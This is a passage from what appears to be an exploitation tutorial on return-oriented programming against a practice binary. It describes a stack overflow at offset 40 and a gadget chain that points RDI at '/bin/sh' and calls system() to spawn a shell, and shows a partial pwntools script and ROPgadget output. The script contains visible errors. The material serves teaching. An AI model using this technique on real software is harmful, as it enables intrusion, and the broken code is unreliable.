 ![pwn11.png](/img/pwn11.png)

This is where we can use **Return Oriented Programming** technique. In ROP, instead of injecting our own code (which is often blocked by modern protections like **NX**), we reuse small sequences of existing instructions already present in the program's memory. These small instruction sequences are called **gadgets**.

First, we need to overflow the return address on the stack so that when the function returns, it jumps to a location we control.

Next, we want to find gadgets in the program that allow us to change the value of the `RDI` register (which is the first argument to functions on x86-64 Linux).

Currently, `callme` sets `RDI` to point to the string `"ls -la"` before calling `system()`. Instead, we want to set `RDI` to point to the string `"/bin/sh"` so that when `system()` is called, it spawns a shell.

Finally, we chain these gadgets to first set up `RDI` with the address of `"/bin/sh"`, and then jump to `system@plt` to execute the shell.

For this to write exploit we can install a very handy library called `ROPgadgets` in Python.

```bash
❯ pip install ROPgadget
```

Okay, lets do first part of overflowing. We already know how to do it from previous topics. We got our offset at `40`.

```python
#!/usr/bin/python3

from pwn import *

elf = elf.binary = ELF('./rop')

io = process()

payload = cyclic(40) + pack()

io.senldine(payload)

io.interactive()
```

Currently address of `pack()` is empty since we don't know the address where we can change value of `RDI`. This is where `ROPgadgets` comes in handy.

```bash
❯ ROPgadget --binary rop
Gadgets information
============================================================
0x000000000040113d : add ah, dh ; nop ; endbr64 ; ret
0x000000000040116b : add bh, bh ; loopne 0x4011d5 ; nop ; ret
0x000000000040131c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x00000000004012a8 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004012a9 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x00000000004011da : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040131e : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040113c : add byte ptr [rax], al ; hlt ; nop ; endbr64 ; ret
0x00000000004012aa : add byte ptr [rax], al ; leave ; ret
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x00000000004011db : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004011d9 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040113b : add byte ptr cs:[rax], al ; hlt ; nop ; endbr64 ; ret
0x00000000004012ab : add cl, cl ; ret
0x000000000040116a : add dil, dil ; loopne 0x4011d5 ; nop ; ret
0x0000000000401038 : add dl, dh ; jmp 0x401020
```